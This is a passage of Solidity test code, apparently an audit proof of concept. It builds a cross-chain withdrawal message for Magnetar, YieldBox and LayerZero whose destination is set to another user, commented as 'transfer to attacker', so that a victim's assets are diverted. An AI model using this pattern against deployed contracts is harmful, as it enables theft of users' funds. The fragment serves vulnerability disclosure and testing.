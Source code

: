 ```solidity
                collateralAmount: 0,
                exitData: IOptionsExitData({exit: false, target: address(0), oTAPTokenID: 0}),
                unlockData: IOptionsUnlockData({unlock: false, target: address(0), tokenId: 0}),
                assetWithdrawData: MagnetarWithdrawData({
                    withdraw: true,
                    yieldBox: address(yieldBox),
                    assetId: bUsdoYieldBoxId,
                    unwrap: false,
                    lzSendParams: LZSendParam({
                        refundAddress: address(userB),
                        fee: MessagingFee({lzTokenFee: 0, nativeFee: 0}),
                        extraOptions: "0x",
                        sendParam: SendParam({
                            amountLD: 0,
                            composeMsg: "0x",
                            dstEid: 0,
                            extraOptions: "0x",
                            minAmountLD: 0,
                            oftCmd: "0x",
                            to: OFTMsgCodec.addressToBytes32(address(userA)) // transfer to attacker
                        })
                    }),
                    sendGas: 0,
                    composeGas: 0,
                    sendVal: 0,
                    composeVal: 0,
                    composeMsg: "0x",
                    composeMsgType: 0
                }),
                collateralWithdrawData: MagnetarWithdrawData({
                    withdraw: false,
                    yieldBox: address(0),
                    assetId: 0,
                    unwrap: false,
                    lzSendParams: LZSendParam({
                        refundAddress: address(userB),
                        fee: MessagingFee({lzTokenFee: 0, nativeFee: 0}),
                        extraOptions: "0x",
                        sendParam: SendParam({
                            amountLD: 0,
                            composeMsg: "0x",
                            dstEid: 0,
                            extraOptions: "0x",
                            minAmountLD: 0,
                            oftCmd: "0x",
                            to: OFTMsgCodec.addressToBytes32(address(userB))
                        })
                    }),
                    sendGas: 0,
                    composeGas: 0,
                    sendVal: 0,
                    composeVal: 0,
                    composeMsg: "0x",
                    composeMsgType: 0
                })
            })
        });
        bytes memory marketMsg_ = usdoHelper.buildMarketRemoveAssetMsg(marketMsg);


        // I added _checkSender in MagnetarMock (function exitPositionAndRemoveCollateral) so need to whitelist USDO
```